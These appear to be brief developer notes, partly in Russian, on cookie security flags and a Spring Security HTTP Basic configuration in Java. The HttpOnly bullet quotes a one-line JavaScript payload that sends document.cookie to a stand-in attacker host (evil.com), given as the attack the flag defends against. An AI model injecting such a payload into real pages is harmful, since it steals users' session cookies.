 - set cookie `Secure` (protects from man in the middle)
- `HttpOnly` недостуна из JavaScript. Защищает от атак `(new Image()).src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;`
- `SameSite=Strict`, нельзя посылать между разными доменами
- 

```Java
    @Value("${spring.security.user.name}")
    private String username;

    @Value("${spring.security.user.password}")
    private String password;

    @Override
    public void configure(HttpSecurity http) throws Exception {
        http.authorizeRequests()
            .antMatchers("/**")
            .authenticated()
            .and().httpBasic(httpSecurityHttpBasicConfigurer -> {
                httpSecurityHttpBasicConfigurer.authenticationEntryPoint(new AuthExceptionEntryPoint());
            });
    }
// можно самим задать inMemoryAuth,
// можно проперти spring.security.user.name, spring.security.user.password прописать без этого закомментированного кода
//    @Autowired
//    public void configureGlobal(AuthenticationManagerBuilder auth) throws Exception {
//        auth.inMemoryAuthentication()
//            .withUser(username)
//            .password("{noop}" + password)
//            .authorities("ROLE_USER");
//    }
```
